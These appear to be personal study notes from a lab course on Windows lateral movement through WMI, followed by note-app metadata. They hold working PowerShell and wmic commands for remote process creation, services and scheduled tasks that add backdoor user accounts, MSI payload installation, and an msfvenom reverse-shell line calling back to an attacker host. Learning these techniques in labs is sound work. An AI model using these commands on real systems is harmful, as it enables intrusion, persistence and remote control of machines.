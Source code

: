 2. Move Laterally with WMI

WMI allows admins to perform standard management tasks that attackers can abuse to perform lateral movement

# Connect to WMI via Powershell

Similar to how we establish connection via WinRM

First we prepare the credential in the powershell

`$username = 'Administrator'; $password = 'Mypass123'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`

Then we proceed to create the session

`$Opt = New-CimSessionOption -Protocol DCOM $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`

# Remote Process Creation (WMI)

Requires Ports 135 (RPC), 5985/5986 (WinRM HTTP/HTTPS), and Administrator

Done by sending a WMI request to the Win32_Process class to spawn the process under the session we created before

`$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere"; Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }`

There will be no output printed out after running. If the machine does not have powershell, we can do the same with **wmic.exe**

`wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c payload.exe"`

# Remote Service Creation (WMI)

Requires Ports 135, 5985/5986 (WinRM HTTP/HTTPS), and Administrator

Method to create a service

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{ Name = "THMService2"; DisplayName = "THMService2"; PathName = "net user munra2 Pass123 /add"; # Your payload ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process StartMode = "Manual" }`

We can then start the service by getting a handle on it

`$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'" Invoke-CimMethod -InputObject $Service -MethodName StartService`

We can control whether to stop or delete the service too

`Invoke-CimMethod -InputObject $Service -MethodName StopService Invoke-CimMethod -InputObject $Service -MethodName Delete`

# Create Scheduled Tasks Remotely (WMI)

Requires Ports 135 (RPC), 5985/5986 (WinRM HTTP/HTTPS), and Administrator

Creation of scheduled tasks

`# Payload must be split in Command and Args`

`$Command = "cmd.exe"`

`$Args = "/c net user munra22 aSdf1234 /add"`

`$Action = New-ScheduledTaskAction -CimSession`

`$Session -Execute $Command -Argument $Args Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2" Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"`

Deletion of scheduled tasks

`Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`

# Install MSI Packages (WMI)

Requires Ports 135 (RPC), 5985/5986 (WinRM HTTP/HTTPS), and Administrator

Payload can be generated through msfvenom

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.x.x.x LPORT=4444 –f msi > install.msi

Method to launch the msi file in Powershell

> `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`

If legacy, can use **wmic.exe**

> `wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi`

id: 155e394b578a4f6287b9927a325c5eaa
parent_id: 0c2846bd3b824b53bfc522d03d0bb20b
created_time: 2022-07-12T09:48:09.782Z
updated_time: 2022-07-19T09:29:11.336Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 414403129576.25
user_created_time: 2022-07-12T09:48:09.782Z
user_updated_time: 2022-07-19T09:29:11.336Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
